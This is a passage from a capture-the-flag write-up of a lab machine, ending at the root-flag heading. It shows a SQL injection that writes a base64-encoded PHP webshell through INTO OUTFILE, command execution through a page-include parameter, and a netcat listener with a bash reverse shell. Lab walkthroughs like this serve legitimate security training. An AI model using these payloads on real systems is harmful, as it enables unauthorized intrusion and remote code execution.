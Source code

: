 Could we write to a library? As the queries are typically run by the `mysqld` user. Let's try write to `/var/lib/mysql/`...

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+@@version+into+outfile+'/var/lib/mysql/version.txt'; --1
```

Using our previous script, we get an output reading `/var/lib/mysql/version.txt` with the script!

`10.6.12-MariaDB-0ubuntu0.22.10.1`

Let's use some Base64 to make a PHP webshell, using a [tiny GET webshell](https://github.com/bayufedra/Tiny-PHP-Webshell#simple-http-requests-get-method-shell).

```
POST /shop/index.php?page=cart HTTP/1.1
...

quantity=1&product_id=%0a';select+from_base64('PD89YCRfR0VUWzBdYD8%2b')+into+outfile+'/var/lib/mysql/webshell.php'; --1
```

So we can use [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell) to visit our webshell, and use the `0` param to send commands!

Visiting [zipping.htb/shop/index.php?page=/var/lib/mysql/webshell&0=whoami](http://zipping.htb:80/shop/index.php?page=/var/lib/mysql/webshell&0=whoami) gives us `rektsu`!

Now, I had a bit of trouble getting a reverse shell with the webshell so I ended up doing it like this:

I setup a listener on my host:

```
$ nc -lvnp 4445
```

I get a [bash reverse shell](https://revshells.com) and base64 encoded it. I then run all the commands in order on the server.

```
echo "<b64 encoded bash reverse shell>" | base64 -d > /home/rektsu/revshell.sh
chmod +x /home/rektsu/revshell.sh
bash /home/rektsu/revshell.sh
```

and I got my reverse shell!

```
Connection from 10.10.11.229:36792
bash: cannot set terminal process group (1134): Inappropriate ioctl for device
bash: no job control in this shell
rektsu@zipping:/var/www/html/shop$
```

## Root Flag
